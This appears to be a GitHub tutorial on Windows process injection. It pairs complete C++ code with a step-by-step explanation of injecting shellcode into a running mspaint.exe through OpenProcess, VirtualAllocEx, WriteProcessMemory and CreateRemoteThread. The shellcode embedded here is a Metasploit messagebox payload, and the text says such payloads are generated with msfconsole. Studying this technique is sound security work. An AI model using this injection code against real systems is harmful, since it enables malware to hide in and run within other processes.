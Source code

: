# Code:

```cpp
#include <Windows.h>
#include <tlhelp32.h>
#include <stdio.h>

int main(int argc, char** argv) {
	unsigned char shellcode[] =
		"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
		"\x51\x41\x50\x52\x51\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
		"\x8b\x52\x18\x48\x8b\x52\x20\x56\x4d\x31\xc9\x48\x8b\x72"
		"\x50\x48\x0f\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02"
		"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51"
		"\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18"
		"\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
		"\x48\x85\xc0\x74\x67\x48\x01\xd0\x8b\x48\x18\x50\x44\x8b"
		"\x40\x20\x49\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41"
		"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d"
		"\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39"
		"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
		"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48"
		"\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41"
		"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
		"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
		"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x0e"
		"\x00\x00\x00\x4e\x6f\x20\x73\x65\x61\x73\x20\x50\x65\x72"
		"\x72\x6f\x00\x5a\xe8\x12\x00\x00\x00\x50\x72\x6f\x63\x65"
		"\x73\x73\x2d\x49\x6e\x6a\x65\x63\x74\x69\x6f\x6e\x00\x41"
		"\x58\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31"
		"\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5";

	// Int PROCESSENTRY32 struct
	PROCESSENTRY32 pe32;
	//Set the size member to the whole size of the struc
	pe32.dwSize = sizeof(PROCESSENTRY32);
	// Take a snapshot of all running process
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	// Get the first process of all running process
	Process32First(snapshot, &pe32);

	// Loop thorugh the whole snapshot until 'mspaint.exe' is found
	do {
		// Check if we have match for mspaint.exe
		if (wcscmp(pe32.szExeFile, L"mspaint.exe") == 0) {
			// Obtain a handle to 'mspaint.exe'
			HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
			//Allocate memory in mspaint.exe
			LPVOID allocate_mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

			if (allocate_mem == NULL) {
				printf("Memory allocated failed: %ul\n", GetLastError());

				return 1;
			}

			printf("Memory page allocated at: 0x%p\n", allocate_mem);

			// Write shellcode to the allocated memory in mspaint.exe
			WriteProcessMemory(hProcess, allocate_mem, shellcode, sizeof(shellcode), NULL);
			// Create a thread to execute shellcode
			HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocate_mem, NULL, 0, NULL);

			if (hThread == NULL) {
				printf("Failed to obtain the handle to process: %ul\n", GetLastError());

				return 1;
			}

			// Halr execution until thread returns
			WaitForSingleObject(hThread, INFINITE);

			// Free allocate memory in mspaint.exe
			VirtualFreeEx(hProcess, allocate_mem, 0, MEM_RELEASE);

			// CLose the handle to the create thread
			CloseHandle(hThread);

			// Close the handle to mspaint.exe process

			CloseHandle(hProcess);

			break;

		}

		// Enumerate the snapshot

	} while (Process32Next(snapshot, &pe32));

	return 0;
}
```

# Explanation:
First at all is so similar to self_injection code but with some modifications. First at all we must to generate the shellcode with msfconsole.
`msf6 payload(windows/x64/messagebox) > generate`, and get the shellode.

In the process injection the difference is the shellcode will injectern into the memory of another running procces. In this case we will inject in the
microsoft paint programe. We use 64-bit process program that the reason the shell code is 64 bits.
In this programe we must to add other procces in that.
1. Get the handle to the process
2. Allocate Memory
3. Write shellcode
4. Execute the shell code.

- Now in Order to ger the handl to the proccess id that we want to inject u will use open process api [OpenProcess];
    - This API takes in three parameters:
        1. PROCESS_ALL_ACCESS: Is a constant uses on Windows to request the posible acces rights to proccess obj. Since we want access to all process resources we use it this flag.
        2. FALSE: This process takes the Boolean value and we set it TRUE of we want make the child proccess inhiter this handle but we wont created then is FALSE.
        3. pe32.th32ProcessID: The most important parameter, is the proccess id which want to access, this processor can obtained by opening a tool like process. Instead copy the PID of the paint
           we must to take the snapshot of the processor, and then we loop through each process and cheack its name.
           In this we define the PROCESSENTRY32 struc which will store information realted to each process in the.
           Then we size the memory [pe32.dwSize = sizeof(PROCESSENTRY32);] of the hole structure.
        4. We have the CreateToolhelp32Snapshot api whic takes in two parameters;
            1. TH32CS_SNAPPROCESS; This parameter is the portion of the system to be included in the snapshot. This include the system in the snapshot. Enumerate the process see [Process32First](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first).
            2. The second Parameter is 0; The second parameter supplied any of this things [TH32CS_SNAPHEAPLIST. TH32CS_SNAPPMODULE, TH32CS_SNAPPMODULE32].
               For theat u need to include the tlhelp32 library.
        5. Process32First and Process32Next is complementaries and thous has 2 paramerts:
            1. snapshot.
            2. Pointer &pe32
            In this funtions Compere the  Process32Next with the executable name [.szExeFile] with the namee mspaint.exr or microsoft paint.
            The funtion wcscmp compares two string togheder and if they match, the returns value is 0.
            Windows use the UTF-16 use this to encode and decode. In this case we see:
            [M.S.P.A.I.N.T...E.X.E != MSPAINT.EXE] We use the prefix [L"mspaint"] to tell the compiler to convert this normal string to a wide string before doing the comprasion.
        6. Use VirtualAllocEx; cause externd the funtionality of VirtualAlloc so the can allocate the memory inside the memory spaces of other processes.
           The diff the first parameter is the handle to the process in which we want to allocate the memory [hProcess]. After the memory is allocated, we use the:
        7. [WriteProcessMemory] api to write our shellcode in the allocated memory inside the microsoft paint process. This api takes in five Patameter:
            1. WriteProcessMemory: Handle to microsoft paint process a source copy or read form. [hProcess].
            2. allocate_mem : The destination to write to.
            3. shellcode: Source copy or read from a destination to.
            4. sizeof(shellcode): size of the copied data and the numbers of a bytes read.
            5. NULL: numbers of a bytes  read is not important then put null.
        8. Fially we create the [CreateRemoteThread] api which takes in same parameter as [createThread] to handle to the microsoft paint process[hProcess].
        9. Similar to self_injection we [WaitForSingleObject].
        10. Then we free the allocated memory in [VirtualFreeEx()].
        11. Close the handle [CloseHandle(hThread)] to the thread and to the process [CloseHandle(hProcess)].


